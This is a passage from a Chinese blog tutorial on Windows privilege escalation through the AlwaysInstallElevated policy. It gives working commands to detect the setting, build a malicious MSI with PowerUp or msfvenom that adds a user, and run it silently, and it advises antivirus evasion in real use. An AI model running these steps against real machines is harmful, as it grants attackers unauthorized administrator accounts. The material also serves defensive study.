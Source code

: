 [![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/16.png)](https://pingmaoer.github.io/2020/06/11/权限提升分析及防御一/16.png)

[![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/17.png)](https://pingmaoer.github.io/2020/06/11/权限提升分析及防御一/17.png)

#### 2、Windows installer的相关知识

windows Installer是Windows操作系统的组件之一，抓门用来管理和配置软件服务。Windows installer除了是一个安装程序，还用户管理软件的安装、管理软件组件的添加和删除、监视文件的还原、通过回滚进行灾难恢复…

其氛围客户端安装服务（Msiexec.exe）和msi文件两部分，他们是一起工作的。Windows installer通过`Msexec.exe`安装MSI文件包含的程序。双击MSI文件就会运行Msexec.exe

#### 3、演示

这里使用PowerUP的`Get-RegistryAlwaysInstallElevated`模块来检测注册表是否被设置。如果 AlwaysInstallElevated 注册表项被设置，意味着的 MSI 文件是以 system 权限运行的，True 表示已经设置，命令如下

```
powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('C:\Users\Admin\Desktop\PowerUp\PowerUp\PowerUp.ps1');Get-RegistryAlwaysInstallElevated
```

也可用注册表查看

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

[![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/18.png)](https://pingmaoer.github.io/2020/06/11/权限提升分析及防御一/18.png)

接着我们需要生成恶意的MSI安装文件，让其来添加用户，使用`PowerUp`脚本自带的 `Write-UserAddMSI`模块，运行后生成文件 `UserAdd.msi`

```
powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('C:\Users\Admin\Desktop\PowerUp\PowerUp\PowerUp.ps1');Write-UserAddMSI
```

[![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/19.png)](https://pingmaoer.github.io/2020/06/11/权限提升分析及防御一/19.png)

最后我们以普通权限运行UserAdd.msi，下面这个运行后还需要点击Greate，更方便的是直接在桌面上进行双击确定

```
msiexec /q /i UserAdd.msi
```

[![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/20.png)](https://pingmaoer.github.io/2020/06/11/权限提升分析及防御一/20.png)

可以看到执行完成后，成功添加了账户

另外的方式是可以使用msf生成木马，进行上传运行，`注意：c后面一定要两个\`实战记得免杀

```
msfvenom -f msi -p windows/adduser USER=qing PASS=123P@ss! -o /root/msi.msi
upload /root/msi.msi c:\\msi.msi //注意：c后面一定要两个\
```
